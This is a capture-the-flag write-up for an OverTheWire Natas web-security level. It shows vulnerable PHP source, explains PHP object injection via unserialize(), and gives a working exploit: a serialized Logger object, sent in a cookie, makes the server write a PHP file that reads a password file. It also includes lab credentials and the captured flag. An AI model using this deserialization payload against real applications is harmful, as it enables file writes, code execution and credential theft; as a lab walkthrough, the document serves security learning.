

# Level 25

## What does the main page look like?



```php
$ curl -s --user natas26:oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T http://natas26.natas.labs.overthewire.org/
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src="http://natas.labs.overthewire.org/js/wechall-data.js"></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas26", "pass": "oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T" };</script></head>
<body>

<h1>natas26</h1>
<div id="content">

Draw a line:<br>
<form name="input" method="get">
X1<input type="text" name="x1" size=2>
Y1<input type="text" name="y1" size=2>
X2<input type="text" name="x2" size=2>
Y2<input type="text" name="y2" size=2>
<input type="submit" value="DRAW!">
</form> 


<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

## Source code

```php
$ curl -s --user natas26:oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T http://natas26.natas.labs.overthewire.org/index-source.html | html2text 
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/
css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-
ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/
wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src="http://natas.labs.overthewire.org/js/wechall-data.js"></
script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas26", "pass": "<censored>" };</
script></head>
<body>
<?php
    // sry, this is ugly as hell.
    // cheers kaliman ;)
    // - morla
    
    class Logger{
        private $logFile;
        private $initMsg;
        private $exitMsg;
      
        function __construct($file){
            // initialise variables
            $this->initMsg="#--session started--#\n";
            $this->exitMsg="#--session end--#\n";
            $this->logFile = "/tmp/natas26_" . $file . ".log";
      
            // write initial message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$initMsg);
            fclose($fd);
        }                       
      
        function log($msg){
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$msg."\n");
            fclose($fd);
        }                       
      
        function __destruct(){
            // write exit message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->exitMsg);
            fclose($fd);
        }                       
    }
 
    function showImage($filename){
        if(file_exists($filename))
            echo "";
    }

    function drawImage($filename){
        $img=imagecreatetruecolor(400,300);
        drawFromUserdata($img);
        imagepng($img,$filename);     
        imagedestroy($img);
    }
    
    function drawFromUserdata($img){
        if( array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
            array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET)){
        
            $color=imagecolorallocate($img,0xff,0x12,0x1c);
            imageline($img,$_GET["x1"], $_GET["y1"], 
                            $_GET["x2"], $_GET["y2"], $color);
        }
        
        if (array_key_exists("drawing", $_COOKIE)){
            $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
            if($drawing)
                foreach($drawing as $object)
                    if( array_key_exists("x1", $object) && 
                        array_key_exists("y1", $object) &&
                        array_key_exists("x2", $object) && 
                        array_key_exists("y2", $object)){
                    
                        $color=imagecolorallocate($img,0xff,0x12,0x1c);
                        imageline($img,$object["x1"],$object["y1"],
                                $object["x2"] ,$object["y2"] ,$color);
            
                    }
        }    
    }
    
    function storeData(){
        $new_object=array();

        if(array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
            array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET)){
            $new_object["x1"]=$_GET["x1"];
            $new_object["y1"]=$_GET["y1"];
            $new_object["x2"]=$_GET["x2"];
            $new_object["y2"]=$_GET["y2"];
        }
        
        if (array_key_exists("drawing", $_COOKIE)){
            $drawing=unserialize(base64_decode($_COOKIE["drawing"]));
        }
        else{
            // create new array
            $drawing=array();
        }
        
        $drawing[]=$new_object;
        setcookie("drawing",base64_encode(serialize($drawing)));
    }
?>

<h1>natas26</h1>
<div id="content">

Draw a line:<br>
<form name="input" method="get">
X1<input type="text" name="x1" size=2>
Y1<input type="text" name="y1" size=2>
X2<input type="text" name="x2" size=2>
Y2<input type="text" name="y2" size=2>
<input type="submit" value="DRAW!">
</form> 

<?php
    session_start();

    if (array_key_exists("drawing", $_COOKIE) ||
        (   array_key_exists("x1", $_GET) && array_key_exists("y1", $_GET) &&
            array_key_exists("x2", $_GET) && array_key_exists("y2", $_GET))){  
        $imgfile="img/natas26_" . session_id() .".png"; 
        drawImage($imgfile); 
        showImage($imgfile);
        storeData();
    }
    
?>

<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

## Analysis

What should immediately ring the bell is that the code defines a class (`Logger`) that is not used anywhere in the rest of the code. Why?

Very likely because we will need it. A quick search on Google with `php class code injection` will quickly point to resources with examples. One good resource is the one from the OWASP: https://owasp.org/www-community/vulnerabilities/PHP_Object_Injection.

On this resource, we can read:
> *"The vulnerability occurs when user-supplied input is not properly sanitized before being passed to the unserialize() PHP function. Since PHP allows object serialization, attackers could pass ad-hoc serialized strings to a vulnerable unserialize() call, resulting in an arbitrary PHP object(s) injection into the application scope."*

Interesting, since we have a class (`Logger`), serialization (`serialize()`, `unserialize()`) and unsanitized user inputs (`x1`, `y1`, `x2`, `y2`).

## Exploit

Let's write a custom class Logger that we will serialize and base64-encode. We'll then inject the base64 string in our session cookie.

*Note: If you don't have a PHP interpreter you can use one online (e.g. http://sandbox.onlinephpfunctions.com/)*

```php
<?php
class Logger{
	private $logFile;
	private $initMsg;
	private $exitMsg;
	function __construct(){
		$this->initMsg = "\n";
		$this->exitMsg = "<?php readfile('/etc/natas_webpass/natas27'); ?>\n";
		$this->logFile = "img/secret.php";
	}
}
$oLogger = new Logger();
print(base64_encode(serialize($oLogger)));
?>
```

Here is the output of the script above:
~~~
Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoxNDoiaW1nL3NlY3JldC5waHAiO3M6MTU6IgBMb2dnZXIAaW5pdE1zZyI7czoxOiIKIjtzOjE1OiIATG9nZ2VyAGV4aXRNc2ciO3M6NDk6Ijw/cGhwIHJlYWRmaWxlKCcvZXRjL25hdGFzX3dlYnBhc3MvbmF0YXMyNycpOyA/PgoiO30=
~~~

Let's send this in the `drawing` cookie (we'll save `PHPSESSID` in the same time):

~~~
$ curl -s \
	--user natas26:oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T \
	--cookie "drawing=Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoxNDoiaW1nL3NlY3JldC5waHAiO3M6MTU6IgBMb2dnZXIAaW5pdE1zZyI7czoxOiIKIjtzOjE1OiIATG9nZ2VyAGV4aXRNc2ciO3M6NDk6Ijw/cGhwIHJlYWRmaWxlKCcvZXRjL25hdGFzX3dlYnBhc3MvbmF0YXMyNycpOyA/PgoiO30=" \
	http://natas26.natas.labs.overthewire.org/
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src="http://natas.labs.overthewire.org/js/wechall-data.js"></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas26", "pass": "oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T" };</script></head>
<body>

<h1>natas26</h1>
<div id="content">

Draw a line:<br>
<form name="input" method="get">
X1<input type="text" name="x1" size=2>
Y1<input type="text" name="y1" size=2>
X2<input type="text" name="x2" size=2>
Y2<input type="text" name="y2" size=2>
<input type="submit" value="DRAW!">
</form> 

<br />
<b>Fatal error</b>:  Cannot use object of type Logger as array in <b>/var/www/natas/
~~~

And now, let's get the content of the flag:

~~~
$ curl -s \
	--user natas26:oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T \
	http://natas26.natas.labs.overthewire.org/img/secret.php

55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ
~~~

# Flag
~~~
natas27:55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ
~~~